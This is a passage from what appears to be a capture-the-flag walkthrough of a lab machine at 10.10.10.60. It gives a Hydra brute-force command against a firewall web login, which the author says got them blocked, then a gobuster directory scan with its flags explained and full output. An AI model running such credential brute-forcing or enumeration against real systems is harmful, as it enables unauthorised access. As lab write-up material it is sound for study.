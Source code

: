 When that didn’t work I had a not-so-bright-idea of brute forcing the credentials using Hydra.

```text
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.60 https-post-form "/index.php:__csrf_magic=sid%3A44c8728e26d47be027a7a01c98089e974f010329%2C1577594299&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect"
```

That ended up getting me blocked. In hindsight it makes sense. It wasn’t very smart to brute force the credentials of a firewall.

Next, I ran gobuster to enumerate directories.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60 -k
```

* **dir:** uses directory/file brute forcing mode.
* **-w:** path to the wordlist.
* **-u:** the target URL or Domain.
* **-k:** skip SSL certificate verification.

I got back the following results.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/29 00:03:57 Starting gobuster
===============================================================
/themes (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/classes (Status: 301)
/widgets (Status: 301)
/tree (Status: 301)
/shortcuts (Status: 301)
/installer (Status: 301)
/wizards (Status: 301)
/csrf (Status: 301)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
===============================================================
2019/12/29 00:30:17 Finished
===============================================================
```
